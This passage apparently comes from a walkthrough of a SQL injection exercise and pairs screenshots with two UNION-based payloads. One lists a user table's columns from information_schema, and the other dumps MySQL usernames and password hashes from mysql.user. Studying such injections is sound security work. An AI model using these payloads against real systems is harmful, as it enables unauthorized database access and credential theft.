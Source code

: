 ![Untitled](images/Untitled%2020.png)

`' UNION SELECT concat(column_name) FROM information_schema.COLUMNS WHERE table_name='user' -- -`

![Untitled](images/Untitled%2021.png)

`' UNION SELECT group_concat(User,':',Password SEPARATOR '<br>') FROM mysql.user -- -`

![Untitled](images/Untitled%2022.png)
